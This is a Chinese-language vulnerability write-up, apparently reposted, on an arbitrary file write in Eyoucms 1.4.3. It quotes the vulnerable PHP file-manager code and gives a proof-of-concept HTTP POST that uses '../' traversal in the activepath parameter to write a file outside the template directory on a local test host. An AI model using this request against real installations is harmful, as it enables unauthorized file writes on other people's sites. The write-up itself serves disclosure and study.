 # Eyoucms 1.4.3 任意文件写入

> 原文：[https://www.zhihuifly.com/t/topic/2927](https://www.zhihuifly.com/t/topic/2927)

# Eyoucms 1.4.3 任意文件写入

## 一、漏洞简介

可写入html,css,js,txt文件，总体来说比较鸡肋。

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞点只对`filename`进行过滤，而忘了`activepath`也可以`../`进行跳转 `application/admin/controller/Filemanager.php`

```
 if (IS_POST) {
         $post = input('post.', '', null);
         $content = input('post.content', '', null);
         $filename = !empty($post['filename']) ? trim($post['filename']) : '';
         $content = !empty($content) ? $content : '';
         $activepath = !empty($post['activepath']) ? trim($post['activepath']) : '';

```
 ... ...

     $r = $this-&gt;filemanagerLogic-&gt;editFile($filename, $activepath, $content);
     if ($r === true) {
         $this-&gt;success('操作成功！', url('Filemanager/index', array('activepath'=&gt;$this-&gt;filemanagerLogic-&gt;replace_path($activepath, ':', false))));
         exit;
     } else {
         ... ... 
``` 
```

跟进`editFile`函数

```
application/admin/logic/FilemanagerLogic.php
 public function editFile($filename, $activepath = '', $content = '')
 {
     $fileinfo = pathinfo($filename);// pathinfo获取后缀
     $ext = strtolower($fileinfo['extension']);

```
 ......

 /*允许编辑的文件类型*/
 if (!in_array($ext, $this-&gt;editExt)) { //&lt;&lt;&lt;&lt;&lt;基于白名单，暂时没有想到绕过的方法&gt;&gt;&gt;&gt;&gt;
     return '只允许操作文件类型如下：'.implode('|', $this-&gt;editExt);
 }
 /*--end*/

 $filename = str_replace("..", "", $filename);// 仅对filename进行过滤
 $file = $this-&gt;baseDir."$activepath/$filename"; // 此处直接拼接产生漏洞
 if (!is_writable(dirname($file))) {
     return "请把模板文件目录设置为可写入权限！";
 }
 if ('css' != $ext) {
     $content = htmlspecialchars_decode($content, ENT_QUOTES);
     $content = preg_replace("/(@)?eval(\s*)\(/i", 'intval(', $content);//
     // $content = preg_replace("/\?\bphp\b/i", "？ｍｕｍａ", $content);
 }
 $fp = fopen($file, "w");
 fputs($fp, $content);
 fclose($fp);
 return true; 
``` `}` 
```

### 漏洞复现

### poc

```
 POST /eyoucms/login.php?m=admin&c=Filemanager&a=newfile&lang=cn HTTP/1.1
 Host: 127.0.0.1
 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:67.0) Gecko/20100101 Firefox/67.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 94
 Origin: http://127.0.0.1
 Connection: close
 Referer: http://127.0.0.1/eyoucms/login.php?m=admin&c=Filemanager&a=newfile&activepath=%3Atemplate%3Aplugins%3Atest&lang=cn
 Cookie: home_lang=cn; admin_lang=cn; PHPSESSID=h6k34lgf1svcatllongehqqdt0; workspaceParam=index%7CFilemanager; XDEBUG_SESSION=18705
 Upgrade-Insecure-Requests: 1 `activepath=%2Ftemplate%2Fplugins%2Ftest/…/…/…/uploads/tmp&filename=newfile.htm&content=test` 
```